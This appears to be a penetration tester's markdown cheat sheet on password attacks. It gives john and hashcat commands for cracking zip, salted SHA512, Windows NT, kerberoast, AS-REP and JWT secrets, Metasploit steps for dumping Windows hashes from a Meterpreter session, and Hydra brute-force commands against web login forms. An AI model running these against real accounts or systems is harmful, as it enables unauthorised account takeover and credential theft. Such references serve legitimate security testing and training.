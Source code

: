 # Password attacks
## john
- Crack password protected zip archives
```bash
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist
```

- Crack salted SHA512 hash
```bash
# hashfile format: hash$salt
john --format='dynamic=sha512($p.$s)' --wordlist=/path/to/wordlist ./hashfile
```

- Crack Windows hash
```sh
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hashcat
- windows hash
```bash
# Format: ffb43f0de35be4d9917ac0cc8ad57f8d
hashcat -m 0 -a 0 ./hash.txt /opt/wordlists/rockyou.txt
```
- kerberos asrep (asreproast)
```bash
hashcat -m 18200 --force -a 0 hashes.asreproast /opt/wordlists/rockyou.txt
```
- kerberos tgs (kerberoast)
```bash
hashcat -m 13100 --force -a 0 ./kerberoast.hashes /opt/wordlists/rockyou.txt
```
- attack modes
```bash
# dictionary attack
-a0
# combinator attack
-a1
# bruteforce / mask attack
-a3
# hybrid wordlist+mask
-a6
# hybrid mask+wordlist
-a7
```
- hash types
```bash
# full list : https://hashcat.net/wiki/doku.php?id=example_hashes
# md5
-m 0
# jwt
-m 16500
# kerberos asrep (asreproast)
-m 18200
# kerberos ths (kerberoast)
-m 13100
```

### mask attack
| code | chars                      |
| ---- | -------------------------- |
| ?l   | abcdefghijklmnopqrstuvwxyz |
| ?u   | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| ?d   | 0123456789                 |
| ?h   | 0123456789abcdef           |
| ?H   | 0123456789ABCDEF           |
| ?s   | «space»!"#$%&'()*          |
| ?a   | ?l?u?d?s                   |
| ?b   | 0x00 - 0xff                |

```bash
# define custom charset
-1 ?h?H?d
# define mask
?1?1?1
# command
-a3 -1 ?h?H?d ?1?1?1
```

### HS256 JWT secret
```bash
# mask attack 4-12 char [a-z0-9]
hashcat -a 3 -m 16500 jwt.txt ?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld -i --increment-min=4

# dictionary attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt

# distionary rule-based attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
```

## Metasploit
- Crack previously dumped Windows hash
```sh
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run
```


# Brute forcing
## Hydra
- Bruteforce login/password combination
```bash
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```
- Find password for a known user
```bash
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```

## Links
___
### Guides
- https://github.com/frizb/Hydra-Cheatsheet
- https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py

### Writeups
- 